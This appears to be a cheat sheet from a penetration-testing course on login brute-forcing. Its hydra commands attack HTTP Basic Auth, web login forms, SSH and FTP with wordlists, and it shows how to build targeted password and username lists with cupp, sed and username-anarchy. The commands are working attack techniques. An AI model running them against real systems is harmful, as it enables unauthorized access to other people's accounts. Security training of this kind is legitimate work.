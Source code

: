 | **Command**                                                                                                                            | **Description**                                     |
| -------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -h`                                                                                                                             | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                   | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                             | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                     | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                   | FTP Brute Force - Static User, Pass Wordlist        |

## Wordlist Customization

| **Command**                                       | **Description**                        |
| ------------------------------------------------- | -------------------------------------- |
| `cupp -i`                                         | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`                | Remove Passwords Shorter Than 8        |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`                | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`        | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`                   | SSH to Server                          |
| `ftp 127.0.0.1`                                   | FTP to Server                          |
| `su - user`                                       | Switch to User                         |
